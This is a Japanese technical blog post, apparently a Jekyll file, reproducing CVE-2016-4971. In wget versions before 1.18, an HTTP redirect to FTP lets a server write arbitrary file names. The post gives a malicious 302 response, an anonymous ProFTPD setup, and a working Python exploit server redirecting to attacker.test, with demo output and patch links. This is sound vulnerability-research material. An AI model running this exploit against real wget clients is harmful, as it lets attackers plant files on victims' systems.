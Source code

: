 ```yaml
---
layout: post
title:  "CVE-2016-4971 Wgetによる任意のファイルの書き込み"
date:   2016-07-06 10:30:00 +0900
categories: Vulnerability
---
```


## 概要

wget 1.18未満のVersionにはHTTPリダイレクトを用いてFTPリソースから任意のファイル名でファイルを作成される脆弱性があります。

## 攻撃の詳細

攻撃者は以下のような30X系のレスポンスを返すことで任意のファイルを被害者のサーバに作成することができる。

```
HTTP/1.1 302 Found
Cache-Control: private
Content-Type: text/html; charset=UTF-8
Location: ftp://attacker.test/foo.txt
```

## 検証環境の構築

 * 被害者マシンのディストロ情報

```
kosuke@scapegoat ~ $ lsb_release -a
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 8.5 (jessie)
Release:        8.5
Codename:       jessie
```

 * 攻撃者マシンのディストロ情報

```
kosuke@attacker ~ $ lsb_release -a
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 8.5 (jessie)
Release:        8.5
Codename:       jessie
```

 * 攻撃用サーバにftpサーバを構築する

```
kosuke@attacker ~ $ sudo apt-get install ftp proftpd
```

 * ftpサーバにanonymous loginの設定を行う

```
<Anonymous /tmp/ftp>
  User                          ftp
  Group                         nogroup
  # We want clients to be able to login with "anonymous" as well as "ftp"
  UserAlias                     anonymous ftp
  # Cosmetic changes, all files belongs to ftp user
  DirFakeUser   on ftp
  DirFakeGroup on ftp

  RequireValidShell             off

  # Limit the maximum number of anonymous logins
  MaxClients                    10

  # We want 'welcome.msg' displayed at login, and '.message' displayed
  # in each newly chdired directory.
  DisplayLogin                  welcome.msg
  DisplayChdir          .message

  # Limit WRITE everywhere in the anonymous chroot
  <Directory *>
    <Limit WRITE>
      DenyAll
    </Limit>
  </Directory>

</Anonymous>
```

 * anonymous loginできるかを検証する

```
kosuke@scapegoat ~ $ ftp attacker.test
Connected to attacker.test.
220 ProFTPD 1.3.5 Server (Debian) [::ffff:192.168.10.103]
Name (attacker.test:kosuke): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
```

## 実証

 * 攻撃用のスクリプトを作成

```
#!/usr/bin/python
import http.server
import socketserver

HTTP_PORT = 8000
FTP_HOST = 'attacker.test'
FTP_PORT = 21
FILENAME = 'HACKING.txt'

class wgetExploit(http.server.SimpleHTTPRequestHandler):

    def do_GET(self):
        self.send_response(301)
        ftp_path = '%s'%('ftp://anonymous@%s:%s/%s'%(FTP_HOST, FTP_PORT, FILENAME))
        self.send_header('Location', ftp_path)
        self.end_headers()

httpd = socketserver.TCPServer(("", HTTP_PORT), wgetExploit)
httpd.serve_forever()
```

 * 攻撃用スクリプトを用いてHTTPサーバを起動する

```
kosuke@attacker ~ $ python --version
Python 3.5.1
kosuke@attacker ~ $ python exploit.py
```

 * scapegoat.testでwgetを実行しHACKING.txtが作成されることを確認する

```
kosuke@attacker ~ $ wget http://attacker.test:8000
--2016-07-06 16:39:36--  http://attacker.test:8000/
attacker.test (attacker.test) をDNSに問いあわせています... 127.0.0.1
attacker.test (attacker.test)|127.0.0.1|:8000 に接続しています... 接続しました。
HTTP による接続要求を送信しました、応答を待っています... 301 Moved Permanently
場所: ftp://anonymous@attacker.test:21/HACKING.txt [続く]
--2016-07-06 16:39:36--  ftp://anonymous@attacker.test/HACKING.txt
           => `HACKING.txt'
attacker.test (attacker.test)|127.0.0.1|:21 に接続しています... 接続しました。
anonymous としてログインしています... ログインしました!
==> SYST ... 完了しました。    ==> PWD ... 完了しました。
==> TYPE I ... 完了しました。  ==> CWD は必要ありません。
==> SIZE HACKING.txt ... 8
==> PASV ... 完了しました。    ==> RETR HACKING.txt ... 完了しました。
長さ: 8 (確証はありません)

HACKING.txt             100%[=================================>]       8  --.-KB/s 時間 0s

2016-07-06 16:39:36 (53.6 KB/s) - `HACKING.txt' へ保存終了 [8]

kosuke@attacker ~ $ cat HACKING.txt
HACKING
```

 * サーバレスポンスを確認する

```
kosuke@attacker ~ $ wget http://attacker.test:8000 --server-response
  HTTP/1.0 301 Moved Permanently
  Server: SimpleHTTP/0.6 Python/3.5.1
  Date: Wed, 06 Jul 2016 07:40:45 GMT
  Location: ftp://anonymous@attacker.test:21/HACKING.txt
```

## パッチ情報

 * http://git.savannah.gnu.org/cgit/wget.git/patch/?id=e996e322ffd42aaa051602da182d03178d0f13e1
 * https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2016-4971
 * https://security-tracker.debian.org/tracker/CVE-2016-4971

## 参考文献

 * https://blogs.securiteam.com/index.php/archives/2701
 * https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-4971
 * http://docs.python.jp/3/library/http.server.html


